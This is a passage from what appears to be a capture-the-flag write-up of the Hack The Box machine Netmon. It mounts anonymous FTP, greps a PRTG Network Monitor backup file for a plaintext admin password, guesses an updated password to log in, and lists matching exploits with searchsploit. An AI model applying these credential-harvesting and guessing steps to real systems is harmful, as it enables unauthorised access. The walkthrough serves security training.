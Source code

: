 ```
226 Transfer complete.
ftp> 
```

We get in, and we can even access the user.txt file from here. But it's not the best way to sift through the information. So let's use curlftpfs to do this:

curlftpfs is a filesystem that is used to access ftp hosts.

```
kali@kali:~/htb/Netmon$ sudo mkdir /mnt/ftp
kali@kali:~/htb/Netmon$ sudo curlftpfs anonymous:anonymous@10.129.103.234 /mnt/ftp
root@kali:/mnt/ftp# ls
'$RECYCLE.BIN'   BOOTNXT                   inetpub        PerfLogs     'Program Files'         Recovery                     Users
 bootmgr        'Documents and Settings'   pagefile.sys   ProgramData  'Program Files (x86)'  'System Volume Information'   Windows
root@kali:/mnt/ftp# 
```


I search around for a bit until I discover:

```
root@kali:/mnt/ftp/ProgramData/Paessler/PRTG Network Monitor# ls
'Configuration Auto-Backups'  'Logs (Sensors)'     'Monitoring Database'     'PRTG Configuration.old.bak'  'System Information Database'
'Log Database'                'Logs (System)'      'PRTG Configuration.dat'  'PRTG Graph Data Cache.dat'   'Ticket Database'
'Logs (Debug)'                'Logs (Web Server)'  'PRTG Configuration.old'  'Report PDFs'                 'ToDo Database'
root@kali:/mnt/ftp/ProgramData/Paessler/PRTG Network Monitor# 
```


I check the files and eventually with:

`root@kali:/mnt/ftp/ProgramData/Paessler/PRTG Network Monitor# cat "PRTG Configuration.old.bak" | grep -A 2 "password" | less -S`

I find:

```
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>

```


I try it on the webpage, but it fails. So I just try changing the year. And I get in with prtgadmin:PrTg@dmin2019

I get PRTG VersionPRTG Network Monitor 18.1.37.13946 from checking the system status. And I check if there are any exploits:

```
kali@kali:~/htb/Netmon$ searchsploit PRTG
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                      | windows/webapps/46527.sh
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)                                                  | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                                                                   | java/webapps/34108.txt
```